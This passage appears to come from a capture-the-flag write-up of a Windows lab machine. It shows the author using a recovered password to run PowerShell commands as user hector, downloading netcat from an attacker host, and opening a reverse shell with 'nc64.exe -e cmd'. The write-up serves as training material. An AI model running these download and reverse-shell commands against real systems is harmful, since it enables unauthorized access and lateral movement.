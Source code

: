 With that password, I’ll try to run a command as hector. I’ll start `powershell`:

```

C:\>powershell

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\>

```

Now I’ll create a credential object:

```

PS C:\> $env:ComputerName
CONTROL
PS C:\> $username = "CONTROL\hector"
PS C:\> $password = "l33th4x0rhector"
PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr

```

Now I’ll use `Invoke-Command` to run commands as hector, and it works:

```

PS C:\> Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { whoami }
control\hector

```

### Shell as hector

For some reason, hector can’t access the `nc.exe` I uploaded to `\windows\temp`, but I’ll upload another copy, and run it:

```

PS C:\> wget 10.10.14.4/nc64.exe -outfile \windows\system32\spool\drivers\color\nc64.exe

PS C:\> Invoke-Command -credential $cred -ScriptBlock { \windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.4 443 } -computer localhost

```

And I get a shell as hector:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.167.
Ncat: Connection from 10.10.10.167:52486.
Microsoft Windows [Version 10.0.17763.805]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Hector\Documents>

```
